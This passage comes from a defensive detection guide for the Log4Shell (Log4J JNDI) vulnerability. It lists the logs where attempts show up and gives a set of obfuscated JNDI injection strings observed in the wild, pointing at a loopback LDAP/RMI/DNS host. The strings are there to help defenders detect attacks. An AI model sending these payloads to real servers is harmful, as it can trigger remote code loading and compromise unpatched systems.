**Logs:**
1. Web proxy (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
2. Firewall (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
3. Load balancer (inbound)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
4. IDS/IPS (across the network)
   - See the [JNDI regex guide](#overall-jndi-detection-regex).
5. Application logs (Log4J) (inbound)    - See [here](#behavior-of-injected-jndi-strings-in-vulnerable-log4j-instances) for more information about the log-writing behavior of vulnerable Log4J instances.
6. Machine logs (Sysmon/security logs)
   - Some exploitation attempts have been observed where Log4J crashes while attempting to execute a malicious LDAP payload. Machine/System logs might provide stack traces of these failures.
7. Process monitoring

**Conclusion:**
1. The targeted application has downloaded the
   malicious payload. Execution of the payload can be
   identified through host-based process monitoring and
   forensic analysis.

## Detection 
### Overall JNDI detection regex
Used in the wild obfuscation examples:
```plain
{env:NOTHING:-j}\u0024{lower:N}\\u0024{lower:${upper:d}}}i:dns:/127.0.0.1:1389}
${${::-j}nd${upper:ı}:rm${upper:ı}://127.0.0.1:1389}
${${base64:JHtqbmRpOmxkYXA6YWRkcn0=}}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//127.0.0.1:1389}
${jndi:${lower:l}${lower:d}a${lower:p}://$127.0.0.1:1389}
${jndi:${lower:l}${lower:d}a${lower:p}://127.0.0.1:1389
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://127.0.0.1/Binary}
${jndi:dns://127.0.0.1:1389}
${jndi:rmi://127.0.0.1:1389}
${jndi:dns:${jndi:pwd}${jndi:pwd}127.0.0.1:1389}
${jndi:ldap://127.0.0.1:1099/obj}
${${upper:j}n${lower:d}${lower:i}:l${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}1${lower:2}${lower:7}.0${lower:.}0${lower:.}${lower:1}${lower::}10${lower:9}9${lower:/}o${lower:b}j}
${${upper:j}${lower:n}${lower:d}${lower:i}${lower::}${lower:l}${lower:d}${lower:a}${lower:p}${lower::}${lower:/}${lower:/}${lower:1}${lower:2}${lower:7}${lower:.}${lower:0}${lower:.}${lower:0}${lower:.}${lower:1}${lower::}${lower:1}${lower:0}${lower:9}${lower:9}${lower:/}${lower:o}${lower:b}${lower:j}}
${jndi:ld${ozI:Kgh:Qn:TXM:-a}p:${DBEau:Y:pLXUu:SfRKk:vWu:-/}${x:UMADq:-/}127${lt:tWd:iEVW:pD:tGCr:-.}${jFpSDW:z:SN:AuqM:C:-0}${dxxilc:HTFa:QLgii:pv:-.}0.${a:l:urnrtk:-1}:1099${zlSEqQ:T:qg:o:-/}ob${E:yJDsbq:-j}}
${${eh:wDUdos:jKY:-j}${xksV:Xgi:-n}${hNdb:SbmXU:goWgvJ:iqAV:Ux:-d}${MXWN:oOi:c:UxXzcI:-i}${DYKgs:tHlY:-:}${d:FHdMm:fw:-l}${Gw:-d}${LebGxe:c:SxLXa:-a}${echyWc:BE:NBO:s:gVbT:-p}${l:QwCL:gzOQm:gqsDS:-:}${qMztLn:e:E:WS:-/}${NUu:S:afVNbT:kyjbiE:-/}${PtGUfI:WcYh:c:-1}${YoSJ:KUV:uySK:crNTm:-2}${EwkY:EsX:S:wk:-7}${HUWOJ:MMIxOn:S:-.}${MHF:s:-0}${obrJVU:RPw:d:A:-.}${E:RgY:j:-0}${MaOtbM:-.}${O:-1}${zzfuGD:YEyvy:mhp:T:-:}${vlaw:WuOBz:-1}${HAjxt:ziBgmc:-0}${UKVBrk:sNAKe:F:qXNetQ:mdIuOW:-9}${geJs:sgYgQW:oOd:qOGf:aYpAkP:-9}${UonINv:-/}${aTygHK:pbQiTB:KkXhKS:-o}${FMRAKM:-b}${wiu:vKIVuh:-j}}
```

